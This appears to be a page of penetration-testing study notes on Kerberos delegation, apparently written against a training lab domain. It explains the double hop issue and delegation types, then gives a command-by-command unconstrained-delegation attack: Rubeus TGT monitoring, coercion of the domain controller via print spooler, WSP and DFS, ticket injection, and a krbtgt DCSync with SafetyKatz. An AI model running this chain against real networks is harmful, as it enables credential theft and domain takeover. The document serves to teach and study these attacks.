

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Delegations

## Double Hop Issue

Kerberos Delegation is a mechanism designed to address the **Kerberos double hop issue**, which arises when an authenticated user accesses a remote service (first hop), and that service must then access another resource on a different system (second hop) on behalf of the same user.&#x20;

<figure><figcaption><p>The Kerberos double hop issue.</p></figcaption></figure>

This issue stems from the fact that both **access tokens and credentials are tied to a user’s logon session**. The **access token defines the user’s local security context**—used by the operating system to control what the user can do on the local machine—while **credentials**, such as NTLM hashes or Kerberos tickets, **represent the user’s network security context** and are used to authenticate to remote systems. Therefore, unless delegation is configured, **a service that receives an access token cannot leverage that token to authenticate as the user to another system**.

<figure><figcaption><p>Access tokens and credentials are tied to a user's logon session.</p></figcaption></figure>

To overcome the Kerberos double hop issue, two primary approaches exist:

* [**CredSSP**](https://learn.microsoft.com/en-us/windows/win32/secauthn/credential-security-support-provider): Stores user credentials in cleartext on the first hop, allowing the second hop to reuse them. While effective, this method introduces significant security concerns due to plaintext credential exposure.
* **Kerberos Delegation**: Enables services to reuse a user's Kerberos-based authentication to access other resources across the network. This allows impersonation beyond the local system without exposing credentials directly, and it can be configured with varying levels of control and restriction depending on the delegation type.

There are three main types of Kerberos delegation:

<table><thead><tr><th width="159.33331298828125">Delegation Type</th><th>Description</th></tr></thead><tbody><tr><td>Unconstrained</td><td>Grants a service unrestricted ability to <strong>impersonate a user to any service in the domain</strong>.</td></tr><tr><td>Constrained</td><td>Limits impersonation to <strong>specific services on specific hosts</strong>. If a user authenticates using a method other than Kerberos (e.g., NTLM), the service can still delegate using <strong>Protocol Transition</strong>, converting the authentication method into a Kerberos ticket to perform delegation.</td></tr><tr><td>Resource-Based Constrained</td><td>Defined on the resource server rather than the delegating service. This allows the target server to <strong>specify which principals are allowed to delegate to it</strong>.</td></tr></tbody></table>

## Unconstrained

When a user authenticates to a service configured for Unconstrained Delegation (UD), the DC **includes the user’s TGT inside the TGS** response. The service decrypts this TGS using its own NTLM password hash, extracts the TGT, and stores it in LSASS. With this TGT available, the service can now request additional TGS tickets on behalf of the user for any service in the domain, allowing the server to **fully impersonate the user** over the network.

<figure><figcaption><p>The uncostrained delegation process (image adapted from <a href="https://thalpius.com/2024/05/31/microsoft-defender-for-identity-recommended-actions-unsecure-kerberos-delegation/">here</a>).</p></figcaption></figure>

This behavior introduces a critical security risk: **if a host configured for UD is compromised, any user who authenticates to it exposes their TGT to the attacker**, including privileged users such as Domain Admins and machine accounts (e.g. `dc01$`). The host becomes a passive collection point for TGTs. The attacker can to wait for privileged users to connect naturally or to **actively force** a connection from a privileged account to the compromised UD host. Some Windows services make this coercion possible:

<table><thead><tr><th width="252.333251953125">Protocol</th><th width="171.33331298828125">Service</th><th width="211.0001220703125">Default on Server OS</th><th width="110.6666259765625">Ports</th></tr></thead><tbody><tr><td>MS-RPRN</td><td>Print Spooler</td><td>Yes</td><td>445</td></tr><tr><td>MS-WSP</td><td>Windows Search</td><td>No (Default on Client OS)</td><td>445</td></tr><tr><td>MS-DFSNM (MDI detects this)</td><td>DFS Namespaces</td><td>No</td><td>445</td></tr></tbody></table>

### Tools



Enumerate hosts with UD configured using PowerView or the ActiveDirectory module:

```powershell
# PowerView
Get-DomainComputer -Unconstrained

# AD module
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```



Launch Rubeus in monitor mode from the compromised host:


```powershell
.\Rubeus.exe monitor /targetuser:DCORP-DC$ /interval:5 /nowrap
[*] Action: TGT Monitoring
[*] Target user     : DCORP-DC$
[*] Monitoring every 5 seconds for new TGTs
```




Force a connection from the attacking machine using [MS-RPRN](https://github.com/leechristensen/SpoolSample), [WSPCoerce](https://github.com/slemire/WSPCoerce), or [DFSCoerce](https://github.com/jfma7/DFSCoerce-exe):


When leveraging WSP or DFS use the netBIOS name and not the FQDN as with RPRN.



```powershell
# Print Spooler (the error is expected)
.\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
RpcRemoteFindFirstPrinterChangeNotificationEx failed.Error Code 1722 - The RPC server is unavailable.

# Windows Search
.\WSPCoerce DCORP-DC DCORP-APPSRV

# Distributed File System
.\DFSCoerce-andrea.exe -t dcorp-dc -l dcorp-appsrv
```


This will result in capturing the Base64-encoded TGT on the Rubeus listener:


```powershell
[*] 6/30/2025 7:03:17 AM UTC - Found new TGT:

  User                  :  DCORP-DC$@DOLLARCORP.MONEYCORP.LOCAL
  StartTime             :  6/29/2025 10:02:16 PM
  EndTime               :  6/30/2025 8:01:36 AM
  RenewTill             :  7/6/2025 10:01:36 PM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doI...BTA==

[*] Ticket cache size: 1
```




The ticket can be injected in the session and used directly:


```powershell
# Inject the ticket
> .\Rubeus.exe ptt /ticket:doI...BTA==

# Confirm the ticket is cached
> klist
Cached Tickets: (1)

#0>     Client: DCORP-DC$ @ DOLLARCORP.MONEYCORP.LOCAL
        Server: krbtgt/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
```


Perform the [DCSync](dcsync.md) attack:


```powershell
SafetyKatz.exe "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```




## Constrained


## Resource-based


## Resources

* Some amazing lectures about Kerberos Delegation ([video](https://www.youtube.com/watch?v=p9QFdITuvgU), [video](https://www.youtube.com/watch?v=byykEId3FUs))
* A great presentation about Kerberos Delegation Attacks ([slides](https://shenaniganslabs.io/media/Constructing%20Kerberos%20Attacks%20with%20Delegation%20Primitives.pdf))
* Some good information about Delegations ([article](https://www.thehacker.recipes/ad/movement/kerberos/delegations/))
